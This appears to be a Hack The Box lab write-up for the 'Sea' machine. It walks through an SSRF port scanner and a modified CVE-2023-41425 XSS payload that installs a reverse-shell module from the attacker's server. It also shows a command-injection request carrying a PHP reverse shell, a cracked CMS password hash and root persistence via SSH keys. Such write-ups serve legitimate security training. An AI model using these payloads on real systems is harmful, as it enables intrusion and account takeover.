

---
tags:
  - hack
  - linux
---
# HTB: [Sea](https://app.hackthebox.com/machines/Sea)

A CMS with a RCE XSS vulnerability offers a foothold and leaked credentials. A command injection on a service bound to `localhost` allows escalation to `root`.

## Enumeration

### `nmap`

##### 80/tcp-http `Apache httpd` `2.4.41` `((Ubuntu))`

```text
__http-title:
Sea - Home
__http-methods:
  Supported Methods: GET HEAD POST OPTIONS
__http-cookie-flags:
  /: 
    PHPSESSID: 
      httponly flag not set
__http-server-header:
Apache/2.4.41 (Ubuntu)
```

### Directory Fuzzing

My first few attempts with `feroxbuster` found `contact.php` but not `loginURL` or any other clues about the CMS. Only after trying `directory-list-2.3-big.txt` did I make progress on that.

### Phishing Opportunity

Here is `contact.php`:


Via Burp:

```http
POST /contact.php HTTP/1.1
Host: sea.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://sea.htb/contact.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 79
Origin: http://sea.htb
Connection: keep-alive
Cookie: PHPSESSID=0t9epb48sulfhr6jftnolmcubu
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=xx&email=x%40x.x&age=42&country=x&website=http%3A%2F%2F10.10.14.3%2Fx.html
```

None of the fields appear (easily) injectable, but the `Website` field allows entering a URL that triggers a connection back from the target:

```http
Connection received on 10.10.11.28 43162
GET / HTTP/1.1
Host: 10.10.14.3
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
```

### SSRF Scanner

I created this "scanner" on my `www` server:

```html
$ cat ~/www/x.html
<html>
<body>
<script>
(async function() {
  const startPort = 1;
  const endPort = 65535;
  const maxConcurrency = 100;

  let currentPort = startPort;
  const activeRequests = new Set();

  function getNextPort() {
    if (currentPort > endPort) {
      return null;
    }
    return currentPort++;
  }

  async function scanPort(port) {
    try {
      const response = await fetch('http://127.0.0.1:' + port, { mode: 'no-cors' });
      // Infer open ports based on the absence of errors.
      await fetch('http://10.10.14.3/report?port=' + port + '&status=open');
    } catch (error) {
      // Ports that refuse connection or are closed will trigger an error.
      //await fetch('http://10.10.14.3/report?port=' + port + '&status=closed');
    }
  }

  async function worker() {
    while (true) {
      const port = getNextPort();
      if (port === null) break;
      const request = scanPort(port);
      activeRequests.add(request);
      await request;
      activeRequests.delete(request);

      // Throttle the number of concurrent requests
      while (activeRequests.size >= maxConcurrency) {
        await Promise.race(activeRequests);
      }
    }
  }

  const workers = [];
  const numWorkers = maxConcurrency;
  for (let i = 0; i < numWorkers; i++) {
    workers.push(worker());
  }

  await Promise.all(workers);
})();
</script>
</body>
</html>
```

After submitting the URL for the above to the target, I receive these open ports:

```console
10.10.11.28 - - [22/Nov/2024 11:20:02] "GET /x.html HTTP/1.1" 200 -
10.10.11.28 - - [22/Nov/2024 11:20:03] "GET /report?port=80&status=open HTTP/1.1" 200 -
10.10.11.28 - - [22/Nov/2024 11:20:34] "GET /report?port=8080&status=open HTTP/1.1" 200 -
10.10.11.28 - - [22/Nov/2024 11:22:59] "GET /report?port=39013&status=open HTTP/1.1" 200 -
```

This wasn't really very useful, since it wasn't required for the foothold and thereafter a locally bound service is easy to identify without all that. But, that SSRF scanning approach might be useful for another target so I'll leave it here.

## Remote Code Execution

[This PoC](https://github.com/prodigiousMind/CVE-2023-41425) for CVE-2023-41425 works to get a foothold, but it doesn't work as is. I had to make two modifications. First, it has a secondary payload that calls <https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip>, which I had to download and serve via my own web server on the local segment; HTB machines can't call out to the public Internet. Second, the XSS payload as written doesn't work for me. Something with the variable assignments are wrong, resulting in invalid URLs. Here's what it looks like in the console on the victim's side:



Here's my modified `xss.js` payload:

```javascript
var url = "http://sea.htb/";
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = url+"/?installModule=http://10.10.14.3/main.zip&directoryName=violet&type=themes&token=" + token; var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", url+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "10.10.14.3";
       var port = "443";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", url+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
     }
   };
 }
};
```

This works, although it still complains about the token assignment:

```javascript
Uncaught TypeError: document.querySelectorAll(...)[0] is undefined
    <anonymous> http://10.10.14.3:8000/xss.js:2
```

Note: there's an opportunity to write a cleaner PoC for this.

As the foothold user, credentials are available in `data/database.js`:

```json
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
...
```

Cleaned (backslashes removed) and cracked:

```console
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

## Privilege Escalation

There's a rudimentary system information script listening on port 8080 which has a command injection, exploitable like this:

```http
POST / HTTP/1.1
Host: localhost:18080
...

log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.3%22%2C443%29%3Bexec%28%22bash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27&analyze_log=;
```

The shell that returns isn't very stable, but it was open long enough for me to add my SSH public key to `/root/.ssh/authorized_keys` and log in properly as `root`.

## Post-exploitation

```python
root@sea:/home/geo/scripts# cat contact.py
import os
import asyncio
from pyppeteer import launch
import requests

async def XSS(page, url):
    login_url = 'http://127.0.0.1/loginURL'
    headers = {'host': 'sea.htb'}
    data = {'password': 'mychemicalromance'}

    response = requests.post(login_url, data=data, headers=headers, allow_redirects=False)
    cookie = response.headers.get('Set-Cookie')
    cookie = cookie.split(';')
    cookie = cookie[1].split('=')[2]
    cookie = {'name': 'PHPSESSID', 'value': cookie, 'domain': 'sea.htb'}
    await page.setCookie(cookie)
    try:
        await page.goto(url)
        content = await page.content()
    except Exception as e:
        print(f"[!] Failed at goto. {e}")

async def main():
    browser = await launch(headless=True, args=['--no-sandbox'])
    page = await browser.newPage()
    directory_path = "/var/www/sea/messages/"

    while True:
        files = os.listdir(directory_path)
        message_files = [file for file in files if file.endswith(".txt")]

        urls = []
        for file in message_files:
            try:
                file_path = os.path.join(directory_path, file)
                with open(file_path, 'r') as f:
                    lines = f.readlines()
                    for line in lines:
                        if line.startswith("Website:"):
                            website = line.strip().split(": ")[1]
                            urls.append(website)
            except:
                print(f"[!] Failed to process {file}")

        for url in urls:
            try:
                await XSS(page, url)
            except:
                print("[!] Failed at XSS")

        os.system(f"rm -f {directory_path}*")
        await asyncio.sleep(60)

asyncio.get_event_loop().run_until_complete(main())
```

```console
root@sea:/var/www/sea# cat .htaccess
Options -Indexes
ServerSignature Off
RewriteEngine on
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.+)$ index.php?page=$1 [QSA,L]
RewriteRule database.js - [F]
RewriteRule cache.json - [F]
```

```php
root@sea:/var/www/sea# cat contact.php
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Contact Form</title>
<style>
    body, html {
        margin: 0;
        padding: 0;
        height: 100%;
        overflow: hidden;
    }
    #background {
        position: fixed;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        background: #00274c;
        z-index: -1;
    }
    #stars {
        width: 1px;
        height: 1px;
        background: #fff;
        position: absolute;
        animation: twinkle 2s infinite;
    }
    @keyframes twinkle {
        0% {
            opacity: 1;
        }
        100% {
            opacity: 0;
        }
    }
    #container {
        position: relative;
        z-index: 1;
        max-width: 600px;
        margin: 50px auto;
        padding: 20px;
        background-color: rgba(255, 255, 255, 0.9);
        border-radius: 10px;
        box-shadow: 0 0 20px rgba(0, 0, 0, 0.2);
    }
    h1 {
        text-align: center;
        margin-bottom: 30px;
        color: #00274c;
    }
    label {
        display: block;
        margin-bottom: 5px;
        color: #00274c;
    }
    input[type="text"],
    input[type="email"],
    input[type="number"] {
        width: calc(100% - 12px);
        padding: 8px;
        margin-bottom: 20px;
        border: 1px solid #ccc;
        border-radius: 5px;
    }
    input[type="text"]:focus,
    input[type="email"]:focus,
    input[type="number"]:focus {
        outline: none;
        border-color: #6fb3e0;
    }
    input[type="submit"] {
        background-color: #6fb3e0;
        color: #fff;
        border: none;
        padding: 10px 20px;
        border-radius: 5px;
        cursor: pointer;
    }
    input[type="submit"]:hover {
        background-color: #4a90c6;
    }
</style>
</head>
<body>


 <?php
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        $name = $_POST["name"];
        $email = $_POST["email"];
        $age = $_POST["age"];
        $country = $_POST["country"];
        $website = $_POST["website"];
        $message = "";
        $content = "Name: $name\nEmail: $email\nAge: $age\nCountry: $country\nWebsite: $website\n";

        $file_path = "/var/www/sea/messages/" . date("Y-m-d") . ".txt";

        if (file_put_contents($file_path, $content, FILE_APPEND) !== false) {
            $message = "<p style='color: green;'>Form submitted successfully!</p>";
        } else {
            $message = "<p style='color: red;'>Failed to submit form. Please try again later.</p>";
        }
    }
    ?>


    <div id="background">
        <div id="stars"></div>
    </div>
    <div id="container">
        <h1>Competition registration - Sea</h1>
        <?php echo $message; ?>

        <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post">
            <label for="name">Name:</label>
            <input type="text" id="name" name="name" required>

            <label for="email">Email:</label>
            <input type="email" id="email" name="email" required>

            <label for="age">Age:</label>
            <input type="number" id="age" name="age" required>

            <label for="country">Country:</label>
            <input type="text" id="country" name="country" required>

            <label for="website">Website:</label>
            <input type="text" id="website" name="website">

            <input type="submit" value="Submit">
        </form>
    </div>
</body>
</html>
```

## Open Questions

Unresolved issues encountered while attacking this target.

- Why is the foothold shell unstable?
